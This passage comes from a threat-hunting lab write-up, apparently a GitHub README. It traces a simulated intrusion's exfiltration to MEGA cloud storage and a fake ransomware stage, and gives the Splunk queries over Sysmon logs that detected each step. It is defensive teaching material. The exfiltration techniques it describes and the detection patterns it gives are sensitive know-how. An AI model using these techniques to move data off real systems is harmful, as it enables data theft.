A narrow search on the filename being archived is enough on its own — since `ips.xml` appears directly in the 7-Zip command line, searching for it lands straight on the single relevant process-creation event without needing any additional filtering.
 


### 11. Exfiltration — Exfiltration to Cloud Storage (`T1567.002`)

*Pushes the collected data out through a trusted cloud service instead of a direct connection.*
 
Starting at **16:22:32 UTC**, `svchost.exe` spawned `mega.exe`, which in turn launched the background `MEGAcmdServer.exe` process — MEGA's legitimate command-line sync client, installed to `AppData\Local\MEGAcmd`. A DNS lookup for `g.static.mega.co.nz` confirmed the client was actively reaching MEGA's infrastructure, giving the attacker a trusted, encrypted channel to move the archived data off the box.
 
**Query used (SPL):**
```spl
index=mitre EventID=22 QueryName!=*mydfir* QueryName!=MYADDC
  QueryName!=DESKTOP-J78SBRN QueryName!=_ldap* MEGA
| stats count by QueryName
```
EventID 22 is Sysmon's DNS query log. Excluding the domain's own internal noise (the MYDFIR domain suffix, the DC's hostname, LDAP service lookups) clears away everything Windows itself generates in the background, leaving the external lookups — and the `MEGA` keyword narrows straight down to the cloud client's callback.
 


### 12. Impact — Data Encrypted for Impact (simulated) (`T1486`)

*Final-stage payload meant to encrypt files and disrupt the victim.*
 
At **16:51:02 UTC**, a file named `isthisransomware.exe` ran twice from `C:\Windows\Temp` on the domain controller. Its underlying binary turned out to be a renamed copy of `notepad.exe` — no files were actually encrypted. In the same session, the attacker had also opened `C:\Shares\Files\passwords.txt` with Notepad shortly beforehand, suggesting this stage of the lab was built to demonstrate ransomware *detection* logic (unusual filename, unusual path, spawned from `explorer.exe`) rather than real destructive impact.
 
**Query used (SPL):**
```spl
index=mitre MyADDC EventID=1 user!="NETWORK SERVICE" user!="LOCAL SERVICE" user!=SYSTEM
| stats count by _time, user, Computer, ParentImage, ParentCommandLine, Image, CommandLine
| sort +_time
```
Filtering the domain controller's process-creation events down to real interactive activity (excluding the service accounts that generate constant background noise) leaves just four events — which is what surfaces the final tail of the attack cleanly: ServerManager opened, the password file opened in Notepad, then the fake ransomware run twice.
 


---
 
## Repository Structure
 
```
.
├── README.md
└── screenshots/
    ├── case-study-1-network-intrusion/
    └── case-study-2-full-compromise/
